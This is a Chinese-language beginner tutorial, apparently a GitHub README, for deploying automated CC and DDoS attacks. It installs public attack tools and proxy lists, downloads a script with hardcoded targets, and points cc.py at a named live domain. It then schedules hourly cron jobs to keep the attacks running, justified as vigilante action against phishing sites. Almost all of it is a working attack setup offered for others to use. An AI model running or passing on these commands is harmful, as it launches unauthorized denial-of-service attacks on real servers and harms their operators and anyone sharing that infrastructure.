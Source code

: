 # Nyaa:Automata ![](https://img.shields.io/github/stars/NyaaCaster/HydaelynAttack?style=social)
## 菜鸟级CC+DDOS自动打击部署教程

*制作工具是人类于其他动物的区别……但如何使用工具是人和人的区别……*

## 前言

这只是为了维护艾欧泽亚不受钓鱼诈骗网站干涉而定制的自动打击策略，故很多参数写死定向打击特定网站，虽然根据实际情况，有能力编辑者脚本中最好自己维护打击目标，但请不要滥用于其他途径。

## 环境级工具

- [x] Linux
- [x] Python3
- [x] Python3-pip
- [x] [**Leeon123/CC-attack**](https://github.com/Leeon123/CC-attack)
- [x] [**TheSpeedX/PROXY-List**](https://github.com/TheSpeedX/PROXY-List)
- [x] [**7zx/overload**](https://github.com/7zx/overload)
- [x] [**NyaaCaster/HydaelynAttack**](https://github.com/NyaaCaster/HydaelynAttack)

## linunx系统语法注意
- 如果是ubuntu debian系的系统，命令前缀使用 apt
- 如果是centos redhead系的系统，命令前缀使用 yum
- 如果是非root权限账号，请在上述命令前加 sudo

## 安装环境依赖
```shell
apt update -y
apt install git vim zip python3 python3-pip -y
wget https://nyaacaster.github.io/Nyaa-Automata/requirements.txt
python3 -m pip install --upgrade pip
pip3 install -r requirements.txt
```

## 安装CC-attack
```shell
git clone https://github.com/Leeon123/CC-attack.git
```

## 获取Proxy-List的socks4和proxy喂料包
```shell
curl -sSf "https://raw.githubusercontent.com/shiftytr/proxy-list/master/socks4.txt" > socks4.txt
curl -sSf "https://raw.githubusercontent.com/shiftytr/proxy-list/master/proxy.txt" > proxy.txt
```
## 安装overload（ddos工具）
```shell
git clone https://github.com/7zx/overload.git
cd overload/
wget https://nyaacaster.github.io/Nyaa-Automata/overload_p.py
cd ..
```
- overload_p.py这个脚本可以自己打开看一下，里面我把手动输入的变量全部写死了以便当自动脚本使用，目标网址可以根据自己情况调整

## 安装HydaelynAttack（ddos工具，流量开销大，每轮攻击12M，计费流量的自己规划好开销）
```shell
git clone https://github.com/NyaaCaster/HydaelynAttack.git
```

## 如果要单独一次性执行cc
```shell
python3 ~/CC-attack/cc.py -url http://liwuhe51.top -f ~/proxy.txt -v 5 -s 30
```
- 命令中地址自己根据情况调整目标网址

## 如果要单独一次性执行overload
```shell
python3 ~/overload/overload_p.py
```
- 自己修改建立了新脚本后执行自己的就可以

## 如果要单独性执行HydaelynAttack
```shell
python3 ~/HydaelynAttack/HydaelynAttack_p.py
```
- HydaelynAttack项目有多个脚本可选，具体看该项目说明


## 部署订制执行计划
```shell
crontab -e
```
- (姑且扫盲一下vim的操作）进入文件后，方向箭移动光标到要修改的地方（这里移动到最末行最末尾）按 i 进入编辑模式

## 插入的计划任务
```shell
0 * * * * python3 ~/CC-attack/cc.py -url http://liwuhe51.top -f ~/socks4.txt -v 4 -s 30
15 * * * * python3 ~/HydaelynAttack/HydaelynAttack_p.py
30 * * * * python3 ~/overload/overload_p.py
```
- 编辑完成后按esc退出编辑
- 英文输入 :qw 保存退出，之后即使重启系统，依然会定时执行
- 时间计划可以自己安排，最好跟我的0 15 30错开，打到交叉打击效果

## 附录：crontab的语法简要说明
```shell
    *    *    *    *    *
    |    |    |    |    |
    |    |    |    |    +----- 星期中星期几 (0 - 6) (星期天 为0)
    |    |    |    +---------- 月份 (1 - 12) 
    |    |    +--------------- 一个月中的第几天 (1 - 31)
    |    +-------------------- 小时 (0 - 23)
    +------------------------- 分钟 (0 - 59)
```

- 每个时间单位的位置都可以写多个值，英文逗号分隔
- 例如：0,5,10 * * * * 这个例子代表每小时的0分 5分 10分各执行一次，合计每小时执行3次
- 更多语法请阅读 [**Linux crontab命令 菜鸟教程**](https://www.runoob.com/linux/linux-comm-crontab.html)（我都看得懂，你一定没问题）

## 如果想便捷的更换打击服务器的ip，可以使用v2ray的linux
-[**v2rayA**](https://v2raya.org/docs/prologue/installation/debian/)
客户端为网页版，可以随时随地访问，不过请自备飞机场

## TODO
- [ ] 把cc打击服务融合到高级触发器中
